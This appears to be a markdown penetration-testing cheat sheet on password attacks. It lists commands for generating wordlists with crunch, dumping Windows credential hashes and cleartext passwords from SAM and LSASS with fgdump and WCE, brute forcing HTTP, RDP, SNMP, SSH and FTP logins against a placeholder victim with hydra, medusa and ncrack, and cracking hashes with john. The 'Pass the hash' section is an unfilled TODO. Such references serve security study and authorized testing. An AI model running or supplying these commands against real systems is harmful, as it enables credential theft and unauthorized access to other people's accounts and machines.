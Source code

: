 ### Password file generator

#### crunch: 
- is a wordlist generator where you can specify a standard character set or a character set you specify.

##### crunch 6 6 1234567890ABCDE -o <file.txt>
  - ***6*** min length
  - ***6*** max length
  - ***1234567890ABCDE*** charset
  - ***o*** seve result in file
 
##### crunch 4 4 -f /usr/share/crunch/charset.lst mixalpha
  - ***f*** dictionary path
  
##### special chars
  - @ lower case alpha char
  - , upper case alpha char
  - % numeric charset
  - ^ special char include space
------------------------------------------------------------------------------------------------------------------------
### Windows password 

#### pwdump fgdump
MS Windows store hased user password in the ***Security account manager (SAM)***
pwdump and fgdump inject a DLL containning the hash dumping code into the ***Local Security Authority Subsystem (LSASS)***

***- c:\> fgdump.exe ***
***- c:\> type 127.0.0.1.pwdump ***

### WCE
- WCE can steal NTLM credentails from memory and dump clear text password
***- c:\> WCE -w ***
------------------------------------------------------------------------------------------------------------------------

### Password Profiling

#### cewl
- cewl <victim_www_url> -d [num] -m [num] -w [file.txt]
------------------------------------------------------------------------------------------------------------------------  
  
### Password Cracking

#### HTTP Brute force attack
- medusa -h [url] -u [user_name] -p [password_file.txt] -M http

#### RDP Brute force attack
- ncrack -vv --user [user_name] -P [password_file.txt] rdp://[victim_ip]

#### SNMP Brute force attack
- hydra -P [password-file.txt] -v [victim_ip] snmp

#### SSH Brute force attack
- hydra -l [user_name] -P [password_file.txt] [victim_ip] ssh

#### FTP Brute force attack
- hyrda -L [user_file] -p [password] [victim_ip] ftp

##### Usefull flag
-vV : verbose mode
-e nsr : login as password or login as password in reversed order etc
-t : threads
------------------------------------------------------------------------------------------------------------------------

### Password Hash Attack

#### Hash identifier
 - usage: hash-identifier
 
#### MD5
- john --format=raw-md5 --wordlist=rockyou.txt [hash.file]

#### SHA1
- john --format=raw-sha1 --wordlist=rockyou.txt [hash.file]

#### SHA224
- john --format=raw-sha224 --wordlist=rockyou.txt [hash.file]

#### SHA512
- john --format=raw-sha512 --wordlist=rockyou.txt [hash.file]
------------------------------------------------------------------------------------------------------------------------

### Pass the hash

# //TODO!
